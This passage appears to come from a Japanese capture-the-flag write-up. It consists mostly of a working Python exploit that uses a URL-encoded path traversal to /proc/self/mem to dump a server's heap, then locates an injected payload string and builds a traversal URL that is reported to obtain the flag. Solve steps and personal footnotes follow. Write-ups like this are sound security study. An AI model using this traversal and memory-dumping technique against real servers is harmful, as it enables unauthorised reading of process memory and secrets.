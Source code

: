 ```python
maps = res.content[len(MAPS_PREFIX):].rstrip(b"\x00")

for line in maps.split(b"\n"):
    if b"[heap]" in line:
        print(line)
        parts = line.split(b" ")[0].split(b"-")
        mem_start = int(parts[0], 16)
        mem_end = int(parts[1], 16)

        for i in range(1000):
            start = mem_start + MAX_LEN*i
            end = min(mem_end, mem_start + MAX_LEN*(i+1))
            if start > end:
                break

            res = httpx.get(
                f"{BASE_URL}/..%2F..%2F..%2F..%2Fproc%2Fself%2Fmem/{start}/{end}",
                timeout=5,
            )
            assert res.status_code == 200

            mem = res.content[len(MEM_PREFIX):].rstrip(b"\x00")

            open(f"data/mem/{start}_{end}", "wb").write(mem)

            index = mem.find(EVIL_CODE)
            if index >= 0:
                margin = 1024 * 50

                code_start = start + index
                code_end = start + (index + len(EVIL_CODE))
                evil_payload = f"/..%2F..%2F..%2F..%2Fproc%2Fself%2Fmem/{code_start - margin}/{code_end + margin}"
                print(f"{evil_payload = }")

                res = httpx.get(
                    f"{BASE_URL}{evil_payload}",
                    timeout=5,
                )
                assert res.status_code == 200
                assert EVIL_CODE in res.content

                exit(0)

            time.sleep(0.5)
```

1. 上記スクリプト内の`EVIL_CODE`の文字列を`/identify`エンドポイントで送信。
2. 上記スクリプトを実行。
3. 表示されたURLをreportすると、フラグが降ってくる。


[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。
[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。